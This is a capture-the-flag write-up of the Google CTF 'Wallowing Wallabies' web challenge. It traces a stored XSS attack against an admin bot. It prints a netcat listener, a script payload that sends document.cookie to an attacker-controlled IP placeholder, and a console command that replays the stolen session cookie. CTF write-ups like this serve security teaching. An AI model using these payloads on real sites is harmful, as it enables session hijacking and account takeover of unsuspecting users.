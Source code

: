 ```yaml
---
layout: post
title: Google CTF - Wallowing Wallabies - Part One
comments: true
description: This post will guide you through the solving of the Wallowing Wallabies web challenge of the Google CTF
image: /public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/homepage.png
---
```


This post is about the [Wallowing Wallabies](https://wallowing-wallabies.ctfcompetition.com/) web challenge of the [Google CTF](https://capturetheflag.withgoogle.com).

<div class="danger" markdown="1">
  **Warning:** This post contains spoilers.
</div>

On the website, we are greeted by this beautiful page:

![Wallowing Wallabies home page](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/homepage.png)

As interesting as this page is, I quickly moved to the `sitemap.xml` (none were found) and to the `robots.txt`:

<!--more-->

```
User-agent: *
Disallow: /deep-blue-sea/
Disallow: /deep-blue-sea/team/
# Yes, these are alphabet puns :)
Disallow: /deep-blue-sea/team/characters
Disallow: /deep-blue-sea/team/paragraphs
Disallow: /deep-blue-sea/team/lines
Disallow: /deep-blue-sea/team/runes
Disallow: /deep-blue-sea/team/vendors
```

After trying all the URLs, I found that the vendors one was interesting.

![Wallowing Wallabies Vendors](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/vendors.png)

That's interesting. It is obviously a form where you put text that will be read by an administrator (or a bot in our case). Let's see if it's possible to do a [XSS injection](https://en.wikipedia.org/wiki/Cross-site_scripting). We will start by checking if the HTML tags are displayed to the page:

``` html
<h1>XSS</h1>
```

And we receive

![Wallowing Wallabies Vendor submission confirmation with XSS hint](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/vendors-hint.png)

So the `<h1>` didn't work, but we get told that they expect our form to contains `<script src=`. We can conclude that this challenge is really an XSS.

Now that we know what we can do, we have to find out what to do. The first thing to think about when we control a page that will be viewed by someone (especially an admin) is that we can steal his **session cookie**.

To steal a cookie, one can redirect the current user viewing the page to a page under our control, with the cookies appended to the URL. Note that this is a lazy way to do it and it might fail in some cases if the cookie is longer than the max length of the URL. Hopefully, this is not our case, so we can be lazy.

The first thing to do is to setup a server to receive the cookie. I used netcat as it is easy to setup and we only need to listen to one connection. Note that if you are behind a router, you will need to redirect the port you use to your computer. I will leave this as an exercise to the reader.

Start your "web server":

``` bash
netcat -l -p 8085 #-l is to listen -p is to specify the port
```

Now we need our JavaScript payload to redirect the user. Once again I don’t want to host the script, and the website wants to receive `<script src=`, so I just append it to my script to make the check pass.

``` html
<script>
  window.location = "http://YOUR_IP_ADDRESS:8085/" + document.cookie;
</script>
<script src=""></script>
```

The admin (bot) will load the page with your script in it, and you will see the URL containing the cookie in the netcat terminal. Don’t forget to **URL decode** the cookie.

Your cookie should look something like this:

```
green-mountains=eyJub25jZSI6IjU5M2E3ZmRjNDFhNGYxYTAiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MjA1MTA0M30=|1462051040|92ceb6fb03f0501199c4399ca3cf870bccd6ffd2
```

The cookie is named `green-mountains` and the value is everything after the first `=`. We can see that it's in 3 parts separated by `|`. The first part looks like Base64 (you can tell because it's all **alphanumeric** and end with an `=`). If you decode it, you get:

``` json
{"nonce":"593a7fdc41a4f1a0","allowed":"^/deep-blue-sea/team/vendors.*$","expiry":1462051043}
```

The interesting part is the `allowed`, which seems to give access to our **vendor** website. We will set the cookie in the browser. You can do it by pasting that in the console:

``` js
document.cookie = "green-mountains=eyJub25jZSI6IjU5M2E3ZmRjNDFhNGYxYTAiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MjA1MTA0M30=|1462051040|92ceb6fb03f0501199c4399ca3cf870bccd6ffd2";
```

When you access the [vendor](https://wallowing-wallabies.ctfcompetition.com/deep-blue-sea/team/vendors) page: **Voilà!** You get your flag!

![Wallowing Wallabies Vendor page with blurred flag](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/vendors-flag.png)
